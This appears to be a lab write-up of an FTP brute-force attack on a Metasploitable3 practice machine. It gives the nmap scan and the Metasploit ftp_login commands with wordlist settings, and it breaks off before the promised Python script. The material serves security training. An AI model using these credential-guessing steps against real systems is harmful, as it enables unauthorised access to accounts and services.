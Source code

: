 **FTP Brute-Force Attack on Metasploitable3**

**Objective:** Compromise the FTP service on a Metasploitable3 victim machine using brute‑force techniques.

---

## 1. Environment Setup

### 1.1 Machines and IP Addresses

* **Attacker (Kali Linux)**

  * IP Address: `10.0.2.15`
    ![Figure 1: Attacker Network Configuration](image/Picture1.png)

* **Victim (Metasploitable3)**

  * IP Address: `10.0.2.16`
    ![Figure 2: Victim Machine Overview](image/Picture2.png)

---

## 2. Vulnerability Enumeration

### 2.1 Service Discovery with Nmap

To identify open services on the victim, we ran:

```bash
nmap -sV 10.0.2.16
```

* Key findings: FTP (port 21/tcp), SSH (22/tcp), HTTP (80/tcp), etc.

![Figure 3: Nmap Scan Results](image/Picture3.png)

### 2.2 Selecting the Target Service

The FTP service was chosen because it allows multiple login attempts, making it susceptible to brute‑force attacks.

---

## 3. Attack Execution

### 3.1 Exploitation via Metasploit Console

1. Launch Metasploit:

   ```bash
   msfconsole
   ```
2. Select the FTP login auxiliary module:

   ```bash
   use auxiliary/scanner/ftp/ftp_login
   ```
3. Configure module options:

   ```bash
   set RHOSTS 10.0.2.16
   set USER_FILE /usr/share/wordlists/rockyou.txt
   set PASS_FILE /usr/share/wordlists/rockyou.txt
   set STOP_ON_SUCCESS true
   ```
4. Execute the attack:

   ```bash
   run
   ```

![Figure 4: Metasploit FTP Brute-Force Configuration](image/Picture4.png)

### 3.2 Custom Brute-Force Script

A Python script using `ftplib` was also used to automate login attempts:

